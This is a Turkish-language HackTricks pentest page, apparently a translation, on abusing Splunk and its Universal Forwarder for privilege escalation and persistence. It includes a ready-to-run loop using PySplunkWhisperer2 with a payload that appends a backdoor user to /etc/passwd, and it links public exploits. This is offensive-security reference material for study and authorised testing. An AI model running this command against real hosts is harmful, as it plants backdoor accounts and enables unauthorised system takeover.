 # Splunk LPE ve Süreklilik

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

Bir makineyi **içten** veya **dıştan** **numaralandırırken** **Splunk çalışıyorsa** (port 8090), şansınız varsa herhangi bir **geçerli kimlik bilgisi** biliyorsanız, **Splunk hizmetini kötüye kullanarak** Splunk'ı çalıştıran kullanıcı olarak **bir shell çalıştırabilirsiniz**. Eğer root çalışıyorsa, yetkileri root'a yükseltebilirsiniz.

Ayrıca eğer **zaten root iseniz ve Splunk hizmeti yalnızca localhost'ta dinlemiyorsa**, Splunk hizmetinden **şifre** dosyasını **çalıp** şifreleri **kırabilir** veya **yeni** kimlik bilgileri ekleyebilirsiniz. Ve host üzerinde sürekliliği sürdürebilirsiniz.

Aşağıdaki ilk resimde, bir Splunkd web sayfasının nasıl göründüğünü görebilirsiniz.



## Splunk Universal Forwarder Agent İstismar Özeti

Daha fazla detay için [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/) gönderisini kontrol edin. Bu sadece bir özet:

**İstismar Genel Bakış:**
Splunk Universal Forwarder Agent (UF) hedef alan bir istismar, ajan şifresine sahip saldırganların ajanı çalıştıran sistemlerde rastgele kod çalıştırmasına olanak tanır ve potansiyel olarak tüm bir ağı tehlikeye atabilir.

**Ana Noktalar:**
- UF ajanı gelen bağlantıları veya kodun doğruluğunu doğrulamaz, bu da yetkisiz kod çalıştırmaya karşı savunmasız hale getirir.
- Yaygın şifre edinme yöntemleri, bunları ağ dizinlerinde, dosya paylaşımlarında veya iç belgelerde bulmayı içerir.
- Başarılı bir istismar, tehlikeye atılan hostlarda SYSTEM veya root düzeyinde erişim, veri sızdırma ve daha fazla ağ sızması ile sonuçlanabilir.

**İstismar Uygulaması:**
1. Saldırgan UF ajan şifresini elde eder.
2. Ajanlara komut veya betik göndermek için Splunk API'sini kullanır.
3. Olası eylemler arasında dosya çıkarma, kullanıcı hesabı manipülasyonu ve sistemin tehlikeye atılması yer alır.

**Etkisi:**
- Her hostta SYSTEM/root düzeyinde izinlerle tam ağ tehlikesi.
- Tespiti önlemek için günlük kaydını devre dışı bırakma potansiyeli.
- Arka kapılar veya fidye yazılımlarının kurulumu.

**İstismar için Örnek Komut:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**Kullanılabilir kamuya açık istismarlar:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Splunk Sorgularını Kötüye Kullanma

**Daha fazla detay için [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis) gönderisini kontrol edin**

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
